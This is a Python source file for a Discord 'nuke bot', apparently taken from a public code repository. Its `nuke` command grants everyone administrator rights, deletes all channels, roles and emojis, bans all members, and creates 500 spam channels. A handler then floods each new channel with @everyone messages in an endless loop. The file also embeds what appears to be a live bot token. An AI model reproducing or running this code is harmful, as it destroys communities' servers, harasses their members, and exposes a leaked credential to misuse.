 import discord
from discord.ext import commands
import random
from discord import Permissions
from colorama import Fore, Style
import asyncio

token = "OTcxMzIzNjQzNDExOTU5ODA4.G1OLsH.KpG3Lg3-Q87WOWZO1kPIxB-6K3U2p4jlQH3WMY"


SPAM_CHANNEL =  ["Nuked By A 5th General"]
SPAM_MESSAGE = ["@everyone You Have Been Nuked Lol"]

client = commands.Bot(command_prefix="!")


@client.event
async def on_ready():
   print(''' 
   
███╗░░██╗██╗░░░██╗██╗░░██╗███████╗  ██████╗░░█████╗░████████╗
████╗░██║██║░░░██║██║░██╔╝██╔════╝  ██╔══██╗██╔══██╗╚══██╔══╝ 
██╔██╗██║██║░░░██║█████═╝░█████╗░░  ██████╦╝██║░░██║░░░██║░░░ 
██║╚████║██║░░░██║██╔═██╗░██╔══╝░░  ██╔══██╗██║░░██║░░░██║░░░ 
██║░╚███║╚██████╔╝██║░╚██╗███████╗  ██████╦╝╚█████╔╝░░░██║░░░  
╚═╝░░╚══╝░╚═════╝░╚═╝░░╚═╝╚══════╝  ╚═════╝░░╚════╝░░░░╚═╝░░░ 

Support Server: https://discord.gg/break or https://discord.gg/eYbnGqMaQ4
 ''')
   await client.change_presence(activity=discord.Game(name="BOTS_DESCRIPTION"))

@client.command()
@commands.is_owner()
async def stop(ctx):
    await ctx.bot.logout()
    print (Fore.GREEN + f"{client.user.name} has logged out successfully." + Fore.RESET)

@client.command()
async def nuke(ctx):
    await ctx.message.delete()
    guild = ctx.guild
    try:
      role = discord.utils.get(guild.roles, name = "@everyone")
      await role.edit(permissions = Permissions.all())
      print(Fore.MAGENTA + "I have given everyone admin." + Fore.RESET)
    except:
      print(Fore.GREEN + "I was unable to give everyone admin" + Fore.RESET)
    for channel in guild.channels:
      try:
        await channel.delete()
        print(Fore.MAGENTA + f"{channel.name} was deleted." + Fore.RESET)
      except:
        print(Fore.GREEN + f"{channel.name} was NOT deleted." + Fore.RESET)
    for member in guild.members:
     try:
       await member.ban()
       print(Fore.MAGENTA + f"{member.name}#{member.discriminator} Was banned" + Fore.RESET)
     except:
       print(Fore.GREEN + f"{member.name}#{member.discriminator} Was unable to be banned." + Fore.RESET)
    for role in guild.roles:
     try:
       await role.delete()
       print(Fore.MAGENTA + f"{role.name} Has been deleted" + Fore.RESET)
     except:
       print(Fore.GREEN + f"{role.name} Has not been deleted" + Fore.RESET)
    for emoji in list(ctx.guild.emojis):
     try:
       await emoji.delete()
       print(Fore.MAGENTA + f"{emoji.name} Was deleted" + Fore.RESET)
     except:
       print(Fore.GREEN + f"{emoji.name} Wasn't Deleted" + Fore.RESET)
    banned_users = await guild.bans()
    for ban_entry in banned_users:
      user = ban_entry.user
      try:
        await user.unban("JohnPlayz TV#2535")
        print(Fore.MAGENTA + f"{user.name}#{user.discriminator} Was successfully unbanned." + Fore.RESET)
      except:
        print(Fore.GREEN + f"{user.name}#{user.discriminator} Was not unbanned." + Fore.RESET)
    await guild.create_text_channel("Nuked By A 5th General")
    for channel in guild.text_channels:
        link = await channel.create_invite(max_age = 0, max_uses = 0)
        print(f"New Invite: {link}")
    amount = 500
    for i in range(amount):
       await guild.create_text_channel(random.choice(SPAM_CHANNEL))
    print(f"nuked {guild.name} Successfully.")
    return

@client.event
async def on_guild_channel_create(channel):
  while True:
    await channel.send(random.choice(SPAM_MESSAGE))

client.run(token, bot=True)
